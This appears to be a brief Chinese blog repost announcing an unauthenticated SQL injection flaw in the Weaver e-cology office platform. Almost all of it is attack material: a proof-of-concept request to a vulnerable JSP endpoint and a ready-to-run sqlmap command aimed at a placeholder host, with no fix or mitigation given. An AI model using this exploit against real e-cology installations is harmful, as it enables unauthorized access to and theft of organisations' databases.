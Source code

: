 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI5NTQ5MTAzMA==&mid=2247484483&idx=1&sn=65c093554a8f3bbae313f287731b9958

#  25年6月最新-泛微e-cology 未授权SQL注入漏洞  
 天黑说嘿话   2025-06-27 08:02  
  
#### poc  

```
/js/hrm/getdata.jsp?cmd=savect&arg0=1

```

  
直接sqlmap  

```
python3 .\sqlmap.py -u &#34;http://xxx/js/hrm/getdata.jsp?cmd=savect&arg0=1&#34; --batch

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/L0IIaicwUY9rtyKYXkjYQwREsvQNvyySIWMm7crrkkGJJrmqDGB8HVe2YcC2apbr0vdfdxf8lxRRjr12r5kliaPQ/640?wx_fmt=png&from=appmsg "")  
  
  
